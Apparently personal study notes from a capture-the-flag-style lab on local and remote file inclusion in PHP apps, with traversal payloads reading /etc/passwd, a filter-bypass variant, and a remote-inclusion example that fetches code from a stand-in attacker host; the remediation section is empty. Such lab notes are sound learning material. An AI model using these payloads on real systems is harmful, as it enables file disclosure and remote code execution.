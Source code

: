 The error message discloses significant information:
- the include function looks like:  `include(languages/THM.php);`. If you look at the directory closely, we can tell the function includes files in the languages directory is adding  `.php` at the end of the entry. To bypass this scenario, we can use the NULL BYTE, which is `%00`.
- the full web application directory path which is `/var/www/html/THM-4/`. To exploit this, we need to use the `../` trick, to get out the current folder. 

in the following scenarios, the developer starts to use input validation by filtering some keywords. When we try `http://webapp.thm/index.php?lang=../../../../etc/passwd` , we got the following error: 
```php
Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
```
I
f we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the `../` with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: `....//....//....//....//....//etc/passwd`
![[Pasted image 20240602043555.png]]

## Remote File Inclusion - RFI

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. 

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:
- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

 Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt where cmd.txt` contains an execution (reverse shell).
```php
<?PHP print exec('hostname'); ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt.` If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
![[Pasted image 20240602044852.png]]
```
http://10.10.178.13/playground.php?file=http://10.10.190.121:8000/cmd.txt
```
## Remediation
